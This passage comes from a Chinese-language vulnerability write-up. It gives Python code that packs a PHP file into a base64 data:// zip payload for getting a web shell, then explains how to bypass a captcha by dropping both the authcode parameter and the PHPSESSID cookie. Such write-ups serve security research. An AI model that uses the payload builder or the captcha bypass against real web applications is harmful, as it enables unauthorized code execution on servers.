 上面的利用步骤稍显繁琐，压缩包payload的构造直接使用Python来实现，做到在减少环境依赖的同时也能开箱即用。

```plain
def get_shell_payload(shell_name="1.php", shell_content="<?php phpinfo();?>"):
    import zipfile
    import base64
    import io
    zip_data = io.BytesIO()

    # 创建一个ZipFile对象，但将其关联到内存中的文件对象
    with zipfile.ZipFile(zip_data, 'w', zipfile.ZIP_DEFLATED, False) as zipf:
        file_contents = shell_content
        zipf.writestr(shell_name, file_contents)

    # 获取内存中的压缩包数据
    zip_data.seek(0)  # 将文件指针移至开头
    zip_binary = zip_data.read()
    # base64
    payload = "data://text/plain;base64,{}".format(base64.b64encode(zip_binary).decode())
    return payload
```

## Py 全自动 GetShell

  作为一个合格的漏洞利用程序，那么它的目标一定是不希望使用者要去进行交互获取到一定信息再填入到程序里面，比如本次的漏洞利用需要第一次的验证码，那么真如上文所述那样真的没有办法么？

让我们仔细看一下负责验证码的代码

[![](assets/1701222538-2045ab58d9ae61e3ad69fcef6d3e44ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203413-6fe8bc46-8dea-1.png)

`$_SESSION` 这个变量跟`Cookie:PHPSESSID`有关，所以思路很简单，同时去掉`authcode`和`session`，让他们的值都为`NULL`就可以绕过验证码了

[![](assets/1701222538-81f2df1ccfb2cdb6eb5143e9343a5418.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203418-730a69d8-8dea-1.png)

